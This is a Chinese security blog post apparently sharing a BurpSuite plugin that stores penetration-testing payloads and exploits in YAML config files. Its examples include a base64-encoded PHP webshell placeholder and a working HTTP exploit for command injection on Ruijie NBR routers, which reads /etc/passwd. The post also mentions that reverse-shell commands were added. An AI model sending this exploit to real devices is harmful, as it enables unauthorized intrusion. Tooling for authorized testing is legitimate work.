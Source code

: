 # [工具分享 | 渗透辅助 BurpSuite 小插件](https://mp.weixin.qq.com/s?__biz=MzI5NTUzNzY3Ng==&mid=2247485496&idx=1&sn=13c439fb91db13339dea3591301cea35&chksm=ec53555bdb24dc4d254f37ade907ee252bfb083ed0c826c73babadfdd6737f5e099188daeb42&scene=126&sessionid=1681873274#rd)

2023-03-14 18:55本文共 3492 字阅读完需 14.5 分钟

> 一款帮助懒人复制麻烦的payload的插件



**免责声明**

本文发布的工具和脚本，仅用作测试和学习研究，禁止用于商业用途，不能保证其合法性，准确性，完整性和有效性，请根据情况自行判断。

如果任何单位或个人认为该项目的脚本可能涉嫌侵犯其权利，则应及时通知并提供身份证明，所有权证明，我们将在收到认证文件后删除相关内容。

文中所涉及的技术、思路及工具等相关知识仅供安全为目的的学习使用，任何人不得将其应用于非法用途及盈利等目的，间接使用文章中的任何工具、思路及技术，我方对于由此引起的法律后果概不负责。



# **About**

# 渗透辅助 BurpSuite 小插件

### 前言

1. 在渗透测试或挖 SRC 的时候每次都需要在笔记中复制一些 Payload 或 Webshell 内容觉得太麻烦了，所以打算 抄一个 Burpsuite 插件，直接在 Burpsuite 点一点操作就简单多了。
2. 在复现一些Http 请求的漏洞，每次都需要在笔记复制exp或写个简单的 python 脚本觉得太麻烦了，如果在 Burpsuite 中直接修改请求包就简单多了。
3. 每次都需要到其他目录打开一些工具，直接在BurpSuite 打开其他工具进行目录扫描等操作就简单多了

### 使用

加载插件初始化的配置文件会放在的`/用户根目录/.config/DAM/`目录下。

2、如果当前 BurpSuite 目录存在 DAM 目录和文件 就会优先访问，但是不会创建。（方便迁移）

3、使用 vscode 来修改 exp.yaml ， payload.yaml 和 tools.yaml （yaml 语法）

```perl
DAM:
|_exp.yaml
|_payload.yaml
|_tools.yaml
|_temp.req (单独启动的时候用来保存 request 请求)
payload.yaml

```

该文件是把 Payload 插入到 数据包 中 （在文件上传的时候快速插入webshell，不用再生成或者翻文件来复制粘贴了）

```php
<?php phpinfo();?>
```

需要把 payload Base64 编码

```undefined
PD9waHAgcGhwaW5mbygpOz8+
WebShell:
  蚁剑:
    PHP:
      PD9waHAgcGhwaW5mbygpOz8+
```

![图片](https://mmbiz.qpic.cn/mmbiz_png/8icWLyUKibZZpUllL47jrcoQnghtpiaAV306aGIU1DDWWaecKx5lhh3wibIkXtEicgr9sQDicowfgowc4kUp3ibUQrULw/640?wx_fmt=png) 

**exp.yaml**





获取 host 和 Cookie 修改整个数据包（如果 Repeater 没有 Target 就使用不了）

host 和 cookie 的位置使用占位符 `%s` , 如果是未授权的就不需要 cookie。

```apache
POST /guest_auth/guestIsUp.php HTTP/1.1 
Host: %s
Connection: close Upgrade-Insecure-Requests: 1 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/85.0.4183.121 Safari/537.36 
Cookie: %s
Content-Type: application/x-www-form-urlencoded 
Content-Length: 56 

mac=1&ip=127.0.0.1|cat /etc/passwd > test.txt
```

然后把 exp Base64编码

```gcode
UE9TVCAvZ3Vlc3RfYXV0aC9ndWVzdElzVXAucGhwIEhUVFAvMS4xIApIb3N0OiAlcwpDb25uZWN0aW9uOiBjbG9zZSBVcGdyYWRlLUluc2VjdXJlLVJlcXVlc3RzOiAxIApVc2VyLUFnZW50OiBNb3ppbGxhLzUuMCAoV2luZG93cyBOVCAxMC4wOyBXaW42NDsgeDY0KSBBcHBsZVdlYktpdC81MzcuMzYgKEtIVE1MLCBsaWtlIEdlY2tvKSBDaHJvbWUvODUuMC40MTgzLjEyMSBTYWZhcmkvNTM3LjM2IApDb29raWU6ICVzCkNvbnRlbnQtVHlwZTogYXBwbGljYXRpb24veC13d3ctZm9ybS11cmxlbmNvZGVkIApDb250ZW50LUxlbmd0aDogNTYgCgptYWM9MSZpcD0xMjcuMC4wLjF8Y2F0IC9ldGMvcGFzc3dkID4gdGVzdC50eHQ=
```

编写 exp.yaml（yaml 语法）

```nestedtext
设备漏洞:
  锐捷漏洞:
    锐捷NBR路由器-前台RCE:
      UE9TVCAvZ3Vlc3RfYXV0aC9ndWVzdElzVXAucGhwIEhUVFAvMS4xIApIb3N0OiAlcwpDb25uZWN0aW9uOiBjbG9zZSBVcGdyYWRlLUluc2VjdXJlLVJlcXVlc3RzOiAxIApVc2VyLUFnZW50OiBNb3ppbGxhLzUuMCAoV2luZG93cyBOVCAxMC4wOyBXaW42NDsgeDY0KSBBcHBsZVdlYktpdC81MzcuMzYgKEtIVE1MLCBsaWtlIEdlY2tvKSBDaHJvbWUvODUuMC40MTgzLjEyMSBTYWZhcmkvNTM3LjM2IApDb29raWU6ICVzCkNvbnRlbnQtVHlwZTogYXBwbGljYXRpb24veC13d3ctZm9ybS11cmxlbmNvZGVkIApDb250ZW50LUxlbmd0aDogNTYgCgptYWM9MSZpcD0xMjcuMC4wLjF8Y2F0IC9ldGMvcGFzc3dkID4gdGVzdC50eHQ=
```

![图片](https://mmbiz.qpic.cn/mmbiz_png/8icWLyUKibZZpUllL47jrcoQnghtpiaAV30bmzNZglardvQBk5hmKW0zfrUS7rMvJBcZYHJ9rA3XIH70bMN74icDKw/640?wx_fmt=png) 

**tools.yaml**



可以直接在GUI直接新增和删除，也可以手动添加

```roboconf
ping: ping -nc 1 {host}

ffuf: ffuf.exe -w dict.txt -u {url}/FUZZ

ffuf2: ffuf.exe -w dict.txt -request {request} -request-proto http -mode clusterbomb
```

**配置**

https://www.baidu.com/index.php

- {request} 表示使用请求包
- {url} : https://www.baidu.com/index.php
- {host} : www.baidu.com
- {domain} : baidu.com
- {target} : https://www.baidu.com

### 更新日志

#### 1.0.4

添加了一些反弹shell的命令

![图片](https://mmbiz.qpic.cn/mmbiz_png/8icWLyUKibZZpUllL47jrcoQnghtpiaAV30OLwkfMM0q77csCDPsLzR1KfVeUkVibjVeib7Oibsfx0TNc3N11cuLxX5Q/640?wx_fmt=png) 

#### 1.0.3.1

1. 感谢 alex123-2star 师傅提交的代码：优化 Mac 快捷启动 和 请求处理（{domain} {target} ）
2. 如果当前 BurpSuite 目录存在 DAM 目录和文件 就会优先访问，但是不会创建。其次才访问 `/用户根目录/.config/DAM/` 下的文件（会创建目录和配置文件）

#### 1.0.3

1.0.3 版本所有配置都放在了`/用户根目录/.config/DAM/`，新增了一个快捷启动工具的功能，可以通过设置工具的路径和命令进行快捷启动。Linux 系统需要安装 `gnome-terminal` ，mac 没测试。

该功能主要抄的工具：

https://github.com/bit4woo/knife

https://github.com/kN6jq/gather

![图片](https://mmbiz.qpic.cn/mmbiz_png/8icWLyUKibZZpUllL47jrcoQnghtpiaAV30clAia0rHJxNL81coBKG384vNVwdNOVuz3215fPhCV9KJEAXwHOXDwDg/640?wx_fmt=png) 

添加保存完成之后在菜单右键可以看到工具

#### ![图片](https://mmbiz.qpic.cn/mmbiz_png/8icWLyUKibZZpUllL47jrcoQnghtpiaAV30zGticZ1iccVPZr5icpeicbwjPCXEVicDCWgXlQwpIED8G8tnWMGbQFayqqg/640?wx_fmt=png)1.0.2

1.0.2 版本添加了一个 GUI 方便查看 漏洞 和 Payload

![图片](https://mmbiz.qpic.cn/mmbiz_png/8icWLyUKibZZpUllL47jrcoQnghtpiaAV30VXtsgzsKKfnzvibPRGRiaATVicNFGtAakVggOZSdHVmoewo8q5xrFpeow/640?wx_fmt=png) 

也可以单独运行，其他功能还没写

![图片](https://mmbiz.qpic.cn/mmbiz_png/8icWLyUKibZZpUllL47jrcoQnghtpiaAV30coTD2YqoY23utlUHddMXwrczGtD31qsS7J6OdVmXSwtkTaErMsTticQ/640?wx_fmt=png) 

**GitHub地址**

```awk
https://github.com/yuyan-sec/Doraemon
```

可以在Burp下创建一个目录名字叫DAM，然后在里面创建三个文件，在文件中分别写入内容。

![图片](https://mmbiz.qpic.cn/mmbiz_png/8icWLyUKibZZpUllL47jrcoQnghtpiaAV30gITr7RGia1a1ia0o8bJMIHdp6RmEV96snbNyFDraEjjCQTqDia2p3bCFQ/640?wx_fmt=png) 